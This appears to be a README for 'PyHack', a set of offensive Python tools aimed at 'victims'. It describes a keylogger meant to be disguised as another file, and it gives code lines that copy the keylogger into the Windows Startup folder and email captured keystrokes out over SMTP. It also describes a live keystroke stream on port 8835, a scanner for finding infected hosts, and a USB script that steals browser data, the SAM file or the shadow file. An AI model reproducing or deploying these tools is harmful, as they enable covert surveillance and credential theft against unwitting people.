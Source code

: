 # PyHack
KEYLOGGER :
Keylogger is, obviously a keylogger. feel free to rename it, make a windows executable, false pptx file or whatever yoou want. This keylogger will send you emails of whatever the victim is tiping and, if you are in the same private network, provide a "live keylogger feature wich allows you to see what the vitcim is typing in live. This keylogger broadcasts the live on the port 8835, feel free to modify this.
Just modify the

shutil.copyfile("{}/keylogger.exe".format(os.getcwd()),"C:\\Users\\{}\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\keylogger.exe".format(getpass.getuser()))


line by removing keyllogger.exe to the file name. this line will copy the script itself on the startup file of windows and make it start at each startup of the computer.
please also modify these line with your own email address.


msg['From'] = "exemple@gmail.com"
msg['To'] = COMMASPACE.join("exemple@gmail.com")

smtp.login("exemple@gmail.com","exemple_password")
smtp.sendmail("exemple@gmail.com","exemple@gmail.com",msg.as_string())



KEYLOGGER_RECEVER : 
Keylogger recever is a script you use in the same private network than your vitctim's computer to access the live keylogger. But to access the live, you will need the local ip address of the vitctim's computer. use the "virus_scanner" script to perform a local network scan and get the ip address. by default the keylogger uses the 8835 port, if you haven't changed it this is the port you will need to specify. 

VIRUS_SCANNER :
Virus scanner is a script wich perform a network scan and show what ip addresses are infected. by default the keylogger uses the 8835 port, if you haven't changed it this is the port you will need to specify. This script may takes about 70/120 s to scan the entire network.

DATA CATCHER:
Data catcher is a script made to be run from an USB key, it simply copy copy all the sensitive data like Browsers data and SAM file from the computer to the USB key. Will not work if the app is not on her default installation path. Only the shadow file will be stolen on a linux machine.
WORDLIST_MAKER:
Simple wordlist maker, to make more specific bruteforce attacks.
